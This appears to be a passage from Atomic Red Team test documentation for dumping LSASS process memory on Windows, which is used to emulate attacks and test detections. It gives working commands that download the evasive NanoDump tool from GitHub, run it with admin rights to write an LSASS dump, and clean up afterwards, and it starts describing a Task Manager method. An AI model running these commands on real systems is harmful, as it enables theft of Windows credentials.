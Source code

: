 


<br/>
<br/>

## Atomic Test #4 - Dump LSASS.exe Memory using NanoDump
The NanoDump tool uses syscalls and an invalid dump signature to avoid detection.

https://github.com/helpsystems/nanodump

Upon successful execution, you should find the nanondump.dmp file in the temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** dddd4aca-bbed-46f0-984d-e4c5971c51ea






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
%temp%\nanodump.x64.exe -w "%temp%\nanodump.dmp"
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location ($env:TEMP\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path $env:TEMP\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/helpsystems/nanodump/raw/84db0c1737bbe027431733c193cfacf59a07259b/compiled/nanodump.x64.exe" -OutFile "$env:TEMP\nanodump.x64.exe"
```




<br/>
<br/>

## Atomic Test #5 - Dump LSASS.exe Memory using Windows Task Manager
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with the Windows Task
Manager and administrative permissions.
